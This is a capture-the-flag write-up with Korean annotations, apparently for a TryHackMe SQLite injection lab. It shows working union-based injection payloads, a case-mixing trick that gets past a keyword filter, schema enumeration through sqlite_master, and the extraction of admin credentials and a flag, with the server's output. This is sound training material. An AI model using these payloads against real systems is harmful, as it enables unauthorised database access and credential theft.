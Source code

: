 nc 10.10.169.254 1337
Welcome to the Light database!
Please enter your username: smokey
Password: vYQ5ngPpw8AdUmL
Please enter your username: vYQ5ngPpw8AdUmL
Username not found.

PORT STATE SERVICE VERSION
22/tcp open ssh OpenSSH 8.2p1 Ubuntu 4ubuntu0.9 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
| 3072 61:c5:06:f2:4a:20:5b:cd:09:4d:72:b0:a5:aa:ce:71 (RSA)
| 256 51:e0:5f:fa:81:64:d3:d9:26:24:16:ca:45:94:c2:00 (ECDSA)
|\_ 256 77:e1:36:3b:95:9d:e0:3e:0a:56:82:b2:9d:4c:fe:1a (ED25519)
Device type: general purpose

```bash
apt install seclists
apt install wordlists
```

nc 10.10.169.254 1337
Welcome to the Light database!
Please enter your username: smokey
Password: vYQ5ngPpw8AdUmL
Please enter your username: 1' OR '1' = '1
Password: tF8tj2o94WE4LKC
Please enter your username: 1' OR '1' = '1'

# 결과가 참일 시에만 제대로 반응

Please enter your username: 1' OR '1' = '2'  
Error: unrecognized token: "'2'' LIMIT 30"

```bash
# sqlite DB 추측
Error: unrecognized token: "'1'' LIMIT 30"
```

Please enter your username: --
For strange reasons I can't explain, any input containing /\*, -- or, %0b is not allowed :)

' UNION SELECT 1 '
Ahh there is a word in there I don't like :(
Please enter your username:

```bash
apt install rlwarp
rlwrap nc 10.10.169.254 1337
```

# SQLite 확인

rlwrap nc 10.10.169.254 1337
Welcome to the Light database!

# input 필터링 하는 것으로 보이나 대소문자를 섞으니 뚫리는 것 확인

Ahh there is a word in there I don't like :(
Please enter your username: ' Union SElect 1 '
Password: 1
Please enter your username: ' union select 1 '
Ahh there is a word in there I don't like :(
Please enter your username:

# 왜 rlwrap nc 10.10.169.254 1337 하면 데이터베이스 같은 정보가 나올까?

rlwrap가 nc에 뭘 더해주거나 바꾸는 게 아니라, 단순히 입력받는 인터페이스에 readline 기능을 씌워줄 뿐입니다.
데이터베이스 정보가 나오는 이유는:
10.10.169.254의 1337 포트에서 Light database라는 서버가 돌고 있어서,
접속하자마자 서버가 "Welcome to the Light database!" 메시지를 보내준 거예요.
즉, nc가 그냥 TCP 연결을 열고 서버와 통신하는 역할을 하니까,
rlwrap를 썼든 안 썼든 서버가 보내는 데이터(문자열)는 똑같이 나오는 거죠.

# sqlite 특징

SELECT group_concat(sql) FROM sqlite_master;

| 컬럼명     | 설명                                              |
| ---------- | ------------------------------------------------- |
| `type`     | 객체의 유형 (`table`, `index`, `view`, `trigger`) |
| `name`     | 객체 이름                                         |
| `tbl_name` | 이 객체가 속한 테이블 이름                        |
| `rootpage` | B-트리 페이지 번호 (보통 사용 안 함)              |
| `sql`      | **해당 객체를 생성한 CREATE 구문**                |

' Union Select group_concat(sql) FROM sqlite_master '

Please enter your username' Union Select group_concat(sql) FROM sqlite_master '
Password: CREATE TABLE usertable (
id INTEGER PRIMARY KEY,
username TEXT,
password INTEGER),
CREATE TABLE admintable (
id INTEGER PRIMARY KEY,
username TEXT,
password INTEGER)

# 유니온 시 컬럼 수가 양쪽 컬럼과 안 맞다고함

' Union SElect \* FROM admintable '
Error: SELECTs to the left and right of UNION do not have the same number of result columns
Please enter your username: ' Union Select id FROM admintable '
Password: 1
Please enter your username: ' Union Select id, username FROM admintable '
Error: SELECTs to the left and right of UNION do not have the same number of result columns

# jsut select 1 column

Please enter your username: ' Union Select username FROM admintable '
Password: TryHackMeAdmin
Please enter your username: ' Union Select password FROM admintable '
Password: THM{SQLit3_InJ3cTion_is_SimplE_nO?}
Please enter your username:

```sql
# 아래 구조로 추정됨
SELECT username FROM sometable WHERE username = '<사용자 입력값>'
UNION
SELECT <컬럼> FROM <테이블> -- (인젝션)
```

# 따옴표 처리 문제 -> 시스템 내에서 '' table 등 처리하고 있어서 어려움 -> 전체를 문자열로 붙여서 조회 후 거기서 찾기

' Union Select password FROM usertable where username=\"smokey\" '
Error: unrecognized token: "\"
Please enter your username: ' Union Select password FROM usertable where username='smokey' '
Error: near "''": syntax error
Please enter your username:

# best

' Union Select group_concat(username || ":" || password || ":" || id) FROM admintable '

Password: TryHackMeAdmin:mamZtAuMlrsEy5bp6q17:1,flag:THM{SQLit3_InJ3cTion_is_SimplE_nO?}:2
